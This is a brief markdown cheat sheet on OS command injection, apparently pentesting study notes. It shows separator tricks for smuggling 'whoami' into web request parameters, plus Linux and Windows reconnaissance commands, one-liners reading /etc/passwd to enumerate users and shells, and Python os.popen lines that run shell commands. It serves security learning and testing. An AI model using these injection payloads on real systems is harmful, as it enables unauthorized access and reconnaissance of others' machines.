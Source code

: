 # OS Command Injection
Also known as "shell injection"


Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.

Example:
`productId=8&storeId=1|whoami`
`productId=8 & whoami & storeId=1`
`productId=8 & whoami # (this is a comment) storeId=1`

# Linux
whoami
id
uname -a
ifconfig/ip addr
netstat -an
ps -ef


How many non-root/non-service/non-daemon users are there?
`awk -F':' '{ if ($3 >= 1000 && $1 != "nobody" ) print $1 }' /etc/passwd | wc -l`

What is the [USER]'s shell set as?
`getent passwd [USER]| awk -F':' '{print $7}'`
	- eg: `getent passwd www-data | awk -F':' '{print $7}'`



#Windows
whoami
ver
ipconfig /all
netstat -an
tasklist




# Python
import os; print(os.popen("ls -l").read())
import os; print(open("path/to/your/file.txt", "r").read())